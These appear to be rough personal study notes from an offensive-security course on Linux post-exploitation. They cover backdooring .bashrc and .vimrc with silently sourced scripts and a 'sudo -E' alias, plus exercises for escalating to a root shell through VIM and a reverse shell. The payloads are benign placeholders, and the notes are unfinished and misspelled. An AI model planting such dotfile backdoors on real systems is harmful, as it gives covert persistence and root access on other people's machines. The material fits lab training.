 # Linux post exploitation

372

linux is used on server

# user configuration files

dotfiles

.bash_profile and .bashrc - to put environement variables and load scripts whene a user initially logs onto a system

```
 echo "touch /tmp/bashtest.txt" >> ~/.bashrc
```

# VIM Config Simple Backdoor

vimrc in .vimrc file comtains the configuration file for vim

`echo ":echo 'this is a test'" >> .vimrc`

`echo "!touch /tmp/test.txt" >> .vimrc`

we can source a shell script using the bash source command.

we can import other vim configuration files into users cuirrent duir with source command we add silent so that the script is not shown.

`echo ':silent !source ~/.vimrunscript' >> .vimrc`
we create a shell script file /home/offsec/.vimrunscript `echo "hacked" >  /tmp/hacksrcout.txt`

we can add alias into the .bashrc file

`echo 'alias sudo="sudo -E"' >> ~/.bashrc`

`source ~/.bashrc` for making effect the changes

we can look at file permission through 

`sudo -l`


### 10.1.1.1 Exercises
1. Backdoor VIM as described in the module by modifying the user’s .vimrc file directly and 
running a command while silencing the output.

2. Backdoor VIM by adding a script to the VIM plugins folder.

3. Backdoor VIM by sourcing a secondary shell script in the user’s .vimrc file while silencing the 
output.
4. Create an alias for the user for sudo to preserve the user’s environment and activate it by 
sourcing the user’s .bashrc file. Then execute a command as root by running VIM as sudo.
5. Using the linuxvictim user, run VIM via sudo and get a root shell using the :shell command.

### 10.1.1.2 Extra Mile
Get a reverse shell using the above VIM backdoor as root.

need to do

# vim config keylogger





